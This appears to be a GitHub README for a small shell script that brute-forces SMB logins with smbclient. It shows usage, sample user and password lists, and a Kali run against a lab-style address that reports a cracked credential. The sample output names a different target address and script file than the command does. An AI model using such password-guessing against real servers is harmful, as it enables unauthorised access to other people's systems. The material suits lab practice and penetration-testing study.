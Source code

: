 # VSSB
Very simple SMB brute force\
\
Some complex tool may fail sometimes.\
This script just tries to login via "smbclient".\
\
```usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123```
\
Considering the following file (containing a list of users):
\
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith
luca```
\
and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt
123456
sandro
omg123!!!
Thestrokes23  
pippo
password```
\
you can use the scripts as follows:
```
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
```

